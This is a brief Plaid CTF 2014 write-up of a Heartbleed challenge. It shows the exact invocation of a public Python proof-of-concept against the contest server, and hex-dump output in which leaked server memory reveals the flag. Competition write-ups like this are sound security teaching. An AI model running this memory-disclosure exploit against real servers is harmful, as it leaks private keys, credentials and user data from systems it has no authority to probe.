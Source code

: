 # Heartbleed writeup
    Plaid CTF, 2014
    Writeup by pipecork

How topical! The [Heartbleed bug](http://heartbleed.com) was only just disclosed the Monday previous, and this weekend there's a challenge on it. There's been plenty of PoC scripts floating around this week, I used [a popular python exploit](WRITEUP-pipecork-files/ssltest.py) that's been making the rounds.

I like this particular one because it's been updated to allow for specifying TLS version. Good thing too, because using TLS version 1 and 3 doesn't look vulnerable. But version 2...

```bash
$ ./ssltest.py -p 45373 -v 2 54.82.147.138
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 837
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
    0000: 02 40 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73  .@.flag{hey_guis
    0010: 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72  e_we_made_a_hear
    0020: 74 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79  tbleed}.flag{hey
    0030: 5F 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61  _guise_we_made_a
    0040: 5F 68 65 61 72 74 62 6C 65 65 64 7D 00 66 6C 61  _heartbleed}.fla
    0050: 67 7B 68 65 79 5F 67 75 69 73 65 5F 77 65 5F 6D  g{hey_guise_we_m
    0060: 61 64 65 5F 61 5F 68 65 61 72 74 62 6C 65 65 64  ade_a_heartbleed
    0070: 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65  }.flag{hey_guise
    0080: 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74  _we_made_a_heart
    0090: 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F  bleed}.flag{hey_
    00a0: 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F  guise_we_made_a_

    . . .

    3fc0: 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65 5F 77  flag{hey_guise_w
    3fd0: 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74 62 6C  e_made_a_heartbl
    3fe0: 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75  eed}.flag{hey_gu
    3ff0: 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65  ise_we_made_a_he

WARNING: server returned more data than it should; server is vulnerable!
```

Well, that was easy. The flag is `flag{hey_guise_we_made_a_heartbleed}`.

